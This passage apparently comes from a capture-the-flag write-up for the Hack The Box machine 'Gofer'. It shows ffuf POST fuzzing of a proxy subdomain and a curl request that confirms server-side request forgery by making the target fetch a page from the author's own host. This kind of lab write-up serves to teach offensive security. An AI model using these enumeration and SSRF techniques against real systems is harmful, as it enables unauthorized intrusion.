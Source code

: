 ```
:: Progress: [17129/17129] :: Job [1/1] :: 888 req/sec :: Duration: [0:00:28] :: Errors: 0 ::
```

But we get a 200 on POST
```
ffuf \
  -c \
  -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt \
  -u "http://proxy.gofer.htb/FUZZ" \
  -X POST -mc all -fs 277,280 -c -v

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://proxy.gofer.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 277,280
________________________________________________

[Status: 200, Size: 81, Words: 9, Lines: 2, Duration: 46ms]
| URL | http://proxy.gofer.htb/index.php
    * FUZZ: index.php

[Status: 401, Size: 462, Words: 42, Lines: 15, Duration: 31ms]
| URL | http://proxy.gofer.htb/.
    * FUZZ: .

[WARN] Caught keyboard interrupt (Ctrl-C)
```

Looking at it closer
```bash
curl -XPOST http://proxy.gofer.htb/index.php
<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>
```

So we got some SSRF
```bash
curl -XPOST http://proxy.gofer.htb/index.php?url=http://10.10.14.218:9090/index.html
<!-- Welcome to Gofer proxy -->
<h1>zoinkers</h1>
1
```
